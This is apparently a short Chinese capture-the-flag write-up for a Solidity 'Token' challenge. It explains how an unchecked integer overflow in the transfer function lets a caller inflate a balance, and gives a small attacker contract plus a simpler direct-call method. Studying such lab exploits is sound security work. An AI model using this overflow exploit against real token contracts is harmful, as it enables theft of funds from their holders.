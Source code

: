 


### method one
给`to`增加`2**256 - 1 - 20`，同时又需要满足msg.sender和to不是同一个地址
```js
pragma solidity ^0.4.24;

contract Token {
    function transfer(address _to, uint _value) public returns (bool);
}

contract TokenTest {
    Token t;
    constructor(address _token) public {
        t = Token(_token);
    }
    function transfer() public {
        uint _value = 2**256 - 1 - 20;
        t.transfer(tx.origin, _value);
    }
}
```

### method two
上面的方法比较笨拙，实际上`20-21=2**256-1>0`溢出，已经满足要求，所以，我们只要调用contract的transfer方法，to地址任意填写即可，当然to和msg.sender不能相同。

